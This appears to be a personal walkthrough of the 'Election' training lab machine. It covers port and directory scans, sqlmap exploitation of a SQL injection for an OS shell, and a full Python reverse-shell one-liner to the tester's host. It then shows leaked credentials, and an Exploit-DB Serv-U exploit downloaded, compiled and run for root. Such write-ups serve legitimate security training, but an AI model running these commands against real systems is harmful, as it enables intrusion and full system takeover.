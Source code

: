```yaml
---
categories: [proving-ground-play]
tags: [proving-ground,walkthrough,pentest]
---
```

Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Election-1/Untitled.png)

```bash
IP : 10.0.2.53
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Electron]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.53
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-10 14:19 IST
Nmap scan report for 10.0.2.53
Host is up (0.0017s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 20d1ed84cc68a5a786f0dab8923fd967 (RSA)
|   256 7889b3a2751276922af98d27c108a7b9 (ECDSA)
|_  256 b8f4d661cf1690c5071899b07c70fdc0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 08:00:27:BA:FC:33 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%201.png)

Lets check for directory listing —>

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Electron]
└─$ feroxbuster -u http://10.0.2.53:80/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -o ferox_80.json --depth 2 -C 403,404 -x php,html,txt,log   

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.9.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.0.2.53:80/
 🚀  Threads               │ 100
 📖  Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 💢  Status Code Filters   │ [403, 404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.9.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💾  Output File           │ ferox_80.json
 💲  Extensions            │ [php, html, txt, log]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 2
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l        -w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      375l      964w    10918c http://10.0.2.53/
200      GET      375l      964w    10918c http://10.0.2.53/index.html
301      GET        9l       28w      311c http://10.0.2.53/javascript => http://10.0.2.53/javascript/
200      GET        4l        4w       30c http://10.0.2.53/robots.txt
301      GET        9l       28w      309c http://10.0.2.53/election => http://10.0.2.53/election/
301      GET        9l       28w      315c http://10.0.2.53/election/media => http://10.0.2.53/election/media/
301      GET        9l       28w      316c http://10.0.2.53/election/themes => http://10.0.2.53/election/themes/
301      GET        9l       28w      314c http://10.0.2.53/election/data => http://10.0.2.53/election/data/
301      GET        9l       28w      315c http://10.0.2.53/election/admin => http://10.0.2.53/election/admin/
301      GET        9l       28w      313c http://10.0.2.53/election/lib => http://10.0.2.53/election/lib/
301      GET        9l       28w      319c http://10.0.2.53/election/languages => http://10.0.2.53/election/languages/
301      GET        9l       28w      312c http://10.0.2.53/election/js => http://10.0.2.53/election/js/
200      GET        1l      215w     1935c http://10.0.2.53/election/card.php
301      GET        9l       28w      311c http://10.0.2.53/phpmyadmin => http://10.0.2.53/phpmyadmin/
200      GET       26l      359w    10531c http://10.0.2.53/phpmyadmin/index.php
301      GET        9l       28w      318c http://10.0.2.53/phpmyadmin/themes => http://10.0.2.53/phpmyadmin/themes/
200      GET       26l      359w    10532c http://10.0.2.53/phpmyadmin/themes.php
401      GET       14l       54w      456c http://10.0.2.53/phpmyadmin/setup
200      GET       26l      359w    10535c http://10.0.2.53/phpmyadmin/db_search.php
[####################] - 5m   5513650/5513650 0s      found:19      errors:970056 
[####################] - 4m   1102730/1102730 4038/s  http://10.0.2.53:80/ 
[####################] - 4m   1102730/1102730 3792/s  http://10.0.2.53/ 
[####################] - 5m   1102730/1102730 3427/s  http://10.0.2.53/javascript/ 
[####################] - 4m   1102730/1102730 4141/s  http://10.0.2.53/election/ 
[####################] - 3m   1102730/1102730 5284/s  http://10.0.2.53/phpmyadmin/
```

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%202.png)

Now lets check these files from directory traversal → `/card.php` file

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%203.png)

Now lets decode this text →

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%204.png)

Now I got a credentails →

```bash
user:1234
pass:Zxc123!@#
```

Lets us this credentails to log into the `/election/admin` →

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%205.png)

Now After recon on web I got an exploit about the election 2.0 →

[https://www.exploit-db.com/exploits/48122](https://www.exploit-db.com/exploits/48122)

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%206.png)

Now lets follow this path —>

Lets see for sqli →

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%207.png)

Lets add a candidate and then Intercept the candidate option →

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%208.png)

Now let’s save the request into a text file →

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%209.png)

Now lets run sqlmap →

```bash
sqlmap -r request.txt --level=5 --risk=3 --os-shell -p id
```

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%2010.png)

Now lets run this reverse shell code of python →

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%2011.png)

Now lets check the response with nc →

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%2012.png)

Now I got a reverse shell →

```bash
www-data@election:/var/www/html/election/admin/logs$ cat sys	
cat system.log 
[2020-01-01 00:00:00] Assigned Password for the user love: P@$$w0rd@123
[2020-04-03 00:13:53] Love added candidate 'Love'.
[2020-04-08 19:26:34] Love has been logged in from Unknown IP on Firefox (Linux).
[2023-05-10 15:40:18] Love has been logged in from Unknown IP on Firefox (Linux).
[2023-05-10 16:10:49] Love added candidate 'Test'.
www-data@election:/var/www/html/election/admin/logs$
```

Lets switch to love user →

```bash
love@election:~$ cd Desk	
cd Desktop/
love@election:~/Desktop$ ls
ls
user.txt
love@election:~/Desktop$  cat user.txt
 cat user.txt
cd38ac698c0d793a5236d01003f692b0
love@election:~/Desktop$
```

Now lets check the SUIDs files →

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%2013.png)

Now I looked into web for more recon purpose →

[https://www.exploit-db.com/exploits/47009](https://www.exploit-db.com/exploits/47009)

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%2014.png)

Lets transfer it to the victim machine →

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%2015.png)

```bash
love@election:/usr/local/Serv-U$ cd /tmp   
cd /tmp
love@election:/tmp$ ls
ls
love@election:/tmp$ wget https://www.exploit-db.com/download/47009
wget https://www.exploit-db.com/download/47009
--2023-05-10 17:08:36--  https://www.exploit-db.com/download/47009
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.13
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.13|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 619 [application/txt]
Saving to: ‘47009’

47009               100%[===================>]     619  --.-KB/s    in 0s      

2023-05-10 17:08:37 (109 MB/s) - ‘47009’ saved [619/619]

love@election:/tmp$ ls -al
ls -al
total 12
drwxrwxrwt  2 root root 4096 May 10 17:08 .
drwxr-xr-x 24 root root 4096 Apr  8  2020 ..
-rw-rw-r--  1 love love  619 May 10 17:08 47009
love@election:/tmp$ chmod +x 47009
chmod +x 47009
love@election:/tmp$ mv 47009 exploit.c
mv 47009 exploit.c
love@election:/tmp$ ls
ls
exploit.c
love@election:/tmp$ gcc exploit.c -o pe && ./pe
gcc exploit.c -o pe && ./pe
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare),1000(love)
opening root shell
# whoami
whoami
root
# /bin/bash -i
/bin/bash -i
root@election:/tmp# cd /root
cd /root
root@election:/root# ls -al
ls -al
total 44
drwx------  6 root root 4096 May 10 14:13 .
drwxr-xr-x 24 root root 4096 Apr  8  2020 ..
-rw-------  1 root root   66 May 27  2020 .bash_history
drwx------  3 root root 4096 Apr  8  2020 .cache
drwx------  5 root root 4096 May 27  2020 .config
drwx------  3 root root 4096 Oct 20  2019 .gnupg
drwxr-xr-x  3 root root 4096 Oct 20  2019 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Apr  9  2020 root.txt
-rw-r--r--  1 root root   66 Apr  2  2020 .selected_editor
-rw-r-----  1 root root    5 May 10 14:14 .vboxclient-display-svga.pid
root@election:/root# cat root.txt
cat root.txt
5238feefc4ffe09645d97e9ee49bc3a6
root@election:/root#
```